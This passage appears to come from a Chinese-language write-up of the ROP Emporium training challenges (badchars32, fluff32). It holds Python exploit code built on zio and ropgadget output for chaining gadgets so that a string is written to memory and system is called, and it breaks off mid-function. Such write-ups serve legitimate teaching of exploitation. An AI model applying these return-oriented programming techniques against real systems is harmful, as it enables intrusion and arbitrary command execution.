 ```python
    payload += l32(pop_ebx_ecx)
    payload += l32(data_addr + i)
    payload += l32(xor_byte)
    payload += l32(xor_ebx_cl)

# run
payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./badchars32')
io.writeline(payload)
io.interact()
```

#### badchars
64 位程序也是一样的，注意参数传递就好了。

#### fluff32
这个练习与上面没有太大区别，难点在于我们能找到的 gadgets 不是那么直接，有一个技巧是因为我们的目的是写入字符串，那么必然需要 `mov [reg], reg` 这样的 gadgets，我们就从这里出发，倒推所需的 gadgets。
```
$ ropgadget --binary fluff32 --only "mov|pop|ret|xor|xchg"
...
0x08048693 : mov dword ptr [ecx], edx ; pop ebp ; pop ebx ; xor byte ptr [ecx], bl ; ret
0x080483e1 : pop ebx ; ret
0x08048689 : xchg edx, ecx ; pop ebp ; mov edx, 0xdefaced0 ; ret
0x0804867b : xor edx, ebx ; pop ebp ; mov edi, 0xdeadbabe ; ret
0x08048671 : xor edx, edx ; pop esi ; mov ebp, 0xcafebabe ; ret
```
我们看到一个这样的 `mov dword ptr [ecx], edx ;`，可以想到我们将地址放进 `ecx`，将数据放进 `edx`，从而将数据写入到地址中。payload 如下：
```python
from zio import *

system_plt   = 0x08048430
data_addr    = 0x0804a028

pop_ebx      = 0x080483e1
mov_ecx_edx  = 0x08048693
xchg_edx_ecx = 0x08048689
xor_edx_ebx  = 0x0804867b
xor_edx_edx  = 0x08048671

def write_data(data, addr):
    # addr -> ecx
    payload  = ""
    payload += l32(xor_edx_edx)
    payload += "BBBB"
    payload += l32(pop_ebx)
    payload += l32(addr)
    payload += l32(xor_edx_ebx)
    payload += "BBBB"
    payload += l32(xchg_edx_ecx)
    payload += "BBBB"
    
    # data -> edx
    payload += l32(xor_edx_edx)
    payload += "BBBB"
    payload += l32(pop_ebx)
    payload += data
    payload += l32(xor_edx_ebx)
    payload += "BBBB"
    
    # edx -> [ecx]
```